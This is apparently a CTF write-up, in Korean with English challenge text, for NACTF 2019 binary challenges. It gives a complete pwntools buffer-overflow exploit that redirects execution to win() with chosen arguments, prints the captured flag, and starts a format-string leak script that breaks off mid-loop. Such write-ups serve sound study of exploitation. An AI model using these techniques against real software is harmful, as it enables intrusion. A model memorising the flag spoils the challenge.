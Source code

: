 # BufferOverflow #2
```
The close cousin of a website for "Question marked as duplicate" - part 3!

Can you control the arguments to win() and get the flag?

Connect at shell.2019.nactf.com:31184
```
## exploit
코드를 보면 인자를 검사하는 부분이 있다. 스택 프레임을 고려해서 인자를 넘기면 된다. 첫번째 인자가 long형인지 모르고 삽질했는데 주의하자.
``` python
from pwn import *

context.log_level = "debug"

#x = process("./bufover-2")
x = remote("shell.2019.nactf.com", 31184)
win = 0x80491c2

x.recvuntil("Type something>")

payload = "a"*(0x18+4)
payload += p32(win)
payload += "aaaa" # return addr after win()
payload += p64(0x14b4da55) # long argv1
payload += p32(0xf00db4be) # int argv2

x.sendline(payload)
x.interactive()
```
## flag
`nactf{PwN_th3_4rG5_T0o_Ky3v7Ddg}`

# Format #0
```
Someone didn't tell Chaddha not to give user input as the first argument to printf() - use it to leak the flag!

Connect at shell.2019.nactf.com:31782
```
## exploit
코드를 보면 이번에는 오버플로우가 일어나지 않는다. 대신 `print()` 부분에서 `FSB(Format String Bug)`가 발생한다. 이를 이용해서 `vuln`의 `stack frame`을 벗어나 `main`의 `buf` 변수를 읽으면 된다.
``` python
from pwn import *

def reverse(hexa):
	for i in range(9-len(hexa)):
		hexa = "0"+hexa
	string = ""
	for i in range(0, len(hexa)-1, 2):
		print(hexa[i:i+2])
		string += chr(int(hexa[i:i+2], 16))
	return string[::-1]

start = 31
flag = ""
for i in range(start, 50):
	#x = process("./format-0")
```